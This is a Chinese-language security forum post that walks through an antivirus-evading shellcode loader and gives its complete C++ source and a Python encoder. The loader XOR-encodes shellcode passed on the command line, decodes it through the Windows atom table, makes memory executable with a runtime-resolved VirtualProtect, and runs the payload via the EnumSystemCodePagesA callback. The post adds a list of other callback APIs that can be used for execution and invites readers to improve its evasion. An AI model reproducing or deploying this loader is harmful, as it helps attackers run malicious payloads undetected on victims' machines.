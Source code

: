0x00 效果
=======

**感觉效果并不是很好，师傅们学习下方法就OK了**  
![finish__1.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ccd90a3ebc81dbacabc340e7367695756826d952.png)

![finish__2.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-7c68a69de319cd4530f6d4c8d5ad51e2ead71a46.png)

![vt.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-3803d6e088878549f0b49a9182967fc9f233d06b.png)

0x01 知识
=======

**1.AddAtomA和GetAtomNameA**

**作用如下**  
![att.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-2681e1ab46c1c2d9bbf22ac23ea99ec18e9ff459.png)  
addatoma将字符串添加到本地原子表并返回标志字符串的唯一值，getatomnamea利用这个唯一的值获取到字符串并且写入到指定的缓冲区

**2.命令行参数**

![cmd.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-671a388cd68ed6708dfd6a30d61c21d7494b32d1.png)

**3.EnumSystemCodePagesA**

这个api一共有两个参数，第一个参数是指向回调函数的指针，我们可以利用它来执行我们的shellcode，第二个参数无关紧要只需要跟着文档随便填即可

**4.virtualprotect**

这个api可以将某块内存改为可读可写可执行

**5.atoi**

作用是把‘1’变成1  
![atoi.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-55a66c448db036052a66ca9332bff3447102eaaf.png)

0x02 步入主题
=========

我这里传入shellcode是利用命令行的方式，shellcode加密也是非常简单的，先异或后加，所以我们在解密的时候应是先减后异或

![捕获.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-bfcb43a793759c898acf6cfedcc3ff4c5ef5eda3.png)  
经过异或和加法后我们可以观察到这些数字都是4位数的，所以我们在解密的时候每一次截取4个长度来解密即可，现在我们把空格给去掉

结果如下  
![m.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-6fae9bce996112cf6e63f9a32a87b64f6d798763.png)

**c++解密**  
思路呢就是把从命令行获取的shellcode，赋值给string类型，利用substr循环截取4个长度的字符串，在利用atoi把它们变成整数，最后异或解密即可

```php
void dec(char* name){//传入shellcode
    char buf[7000];
    strcat(buf, name);//把shellcode放进buf里
    string buf_2 = buf;//把buf赋值给string类型的buf_2
    char bufff[50];
    char cd[50];
    int code;
    char buff[7000];
    int num = 0;
    int num_2 = num + 4;//num和num_2为substr的截取长度，为4
    int code_num = 0;
    for (int i = 0; i < sizeof(buf); i++) {
        if (buf[i] != (char)'\x0') {
            string str = buf_2.substr(num, num_2);//截取4个长度的字符串
            if (str.length() < 4) {
                break;
            }//这里是判断是否长度小于4，是因为我们加密后的都是4个长度的，如果不为长度4的话，肯定就代表值以及取完了，所以break跳出循环
            str.copy(cd, 4, 0);//这里是把获取到的4个长度的字符串放入cd这个数组里
            ATOM att = AddAtomA(cd);//把cd里的值添加到本地原子表并返回标志它的唯一值
            GetAtomNameA(att, bufff, 50);//这里是利用它的唯一值来获取它的值并且写进bufff里
            code = (atoi(bufff) - 1024) ^ 1024;//这里是把bufff里的值转换成整数，在减去1024在异或，这里shellcode就解密成功了
            buff[code_num] = (char)code;//这里是解密后的shellcode转成char类型并且把它写进buff里
            code_num++;//每次循环加1，让shellcode全部写进buff里
            num_2 += 4;//加4，让substr永远可以截取4个长度的字符串，并且把我们加密后的shellcode全部截取完
            num += 4;//加4，让substr永远可以截取4个长度的字符串，并且把我们加密后的shellcode全部截取完
        }
        else {
            break;
        }
    }
}
```

到这里解密完的shellcode已经全部放入到buff里了,接下来利用EnumSystemCodePagesA来执行我们的shellcode

```php
    DWORD old;
    VirtualProtect(buff, sizeof(buff), PAGE_EXECUTE_READWRITE, &old);//更改为可写可读可执行
    EnumSystemCodePagesA((CODEPAGE_ENUMPROCA)&buff, CP_INSTALLED);
```

![en.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-1540388523376e7c4beb5984ed31de9ef3b48fb1.png)  
可以看到正常上线  
随后我们用getprocaddress和getmodulehandle来动态调用VirtualProtect

```php
typedef BOOL(WINAPI* VirTual)(
    LPVOID     Addr,
    DWORD      Size,
    DWORD      New,
    PDWORD     Old
    );

VirTual VT = (VirTual)GetProcAddress(
    GetModuleHandleA("Kernel32.dll"),
    "VirtualProtect"
);
```

随后把代码中的VirtualProtect改成VT即可

```php
DWORD old;
VT(buff, sizeof(buff), PAGE_EXECUTE_READWRITE, &old);
```

0x03 完整代码
=========

这次就不放github上了，放在这里活得久点

**SlinetSc.cpp**

```php
#define _CRT_SECURE_NO_DEPRECATE
#include<Windows.h>
#include<iostream>
using namespace std;

typedef BOOL(WINAPI* VirTual)(
    LPVOID     Addr,
    DWORD      Size,
    DWORD      New,
    PDWORD     Old
    );

VirTual VT = (VirTual)GetProcAddress(
    GetModuleHandleA("Kernel32.dll"),
    "VirtualProtect"
);

void dec(char* name) {
    char buf[7000];
    strcat(buf, name);
    char bufff[50];
    char cd[50];
    int code;
    char buff[7000];
    string buf_2 = buf;
    int num = 0;
    int num_2 = num + 4;
    int code_num = 0;
    for (int i = 0; i < sizeof(buf); i++) {
        if (buf[i] != (char)'\x0') {
            string str = buf_2.substr(num, num_2);
            if (str.length() < 4) {
                break;
            }
            str.copy(cd, 4, 0);
            ATOM att = AddAtomA(cd);
            GetAtomNameA(att, bufff, 50);
            code = (atoi(bufff) - 1024) ^ 1024;
            buff[code_num] = (char)code;
            code_num++;
            num_2 += 4;
            num += 4;
        }
        else {
            break;
        }
    }
    DWORD old;
    VT(buff, sizeof(buff), PAGE_EXECUTE_READWRITE, &old);
    EnumSystemCodePagesA((CODEPAGE_ENUMPROCA)&buff, CP_INSTALLED);
}

int main(int argc, char* argv[]) {

    char* name = argv[1];
    dec(name);
    return 0;
}
```

**encode.py**

```php
shellcode = b""
str_=""
for i in shellcode:
    code=(i^1024)+1024
    str_+=str(code)
print(str_)
```

shellcode放在shellcode里，然后Python运行既可，最后命令行执行`SlientSc.exe 这里是加密后的shellcode`

由于我不懂密码学这类的，加密也只是简单的异或，师傅们拿去改改，效果可能会好不少

我收集了一些有回调函数的参数的api，如下

```php
EnumSystemGeoNames
EnumSystemGeoID
EnumSystemCodePages
EnumDateFormats
EnumCalendarInfo
EnumSystemLocales
EnumCalendarInfoEx
EnumTimeFormatsEx
EnumTimeFormats 
EnumUILanguages
EnumSystemLanguageGroups
EnumLanguageGroupLocales
```

**最后祝师傅们所在的地区温度-10℃**